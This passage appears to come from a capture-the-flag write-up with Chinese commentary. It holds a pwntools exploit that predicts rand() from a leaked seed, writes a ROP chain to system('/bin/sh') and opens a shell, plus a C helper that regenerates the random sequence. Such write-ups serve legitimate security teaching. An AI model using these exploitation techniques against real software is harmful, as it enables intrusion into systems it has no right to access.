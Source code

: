 ```python
    idx += 1

# 0x401fac
write_to_offset(14, pop_rdi_ret)
write_to_offset(16, binsh)
write_to_offset(18, ret)
write_to_offset(20, _system)

def leak_dice():
    dice = []

    for i in range(6):
        r.sendlineafter('> ', '0')
        r.sendlineafter('> ', str(i))
        r.recvuntil(' is ')
        dice.append(int(r.recvline()[:-1]))

    return dice

dice = leak_dice()
print(dice)

##### guess
input()
r.sendlineafter('>', '2')
for i in range(6):
    r.sendlineafter('>', str(dice[i] ^ rands[idx]))
    idx += 1

r.interactive()
```



```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/time.h>

int main(int argc, char *argv[])
{
    unsigned long int seed = strtoul(argv[1], NULL, 10);
    srandom((unsigned int) seed);

    for (int i = 0; i < 0x100; i++) {
        printf("%d ", rand());
    }
    return 0;
}
```



假 random，其實 seed 都可以 leak 出來，之後就是預測未來的 `rand()`，透過 `edit` 的功能寫 ROP，最後在猜對 dice 即可。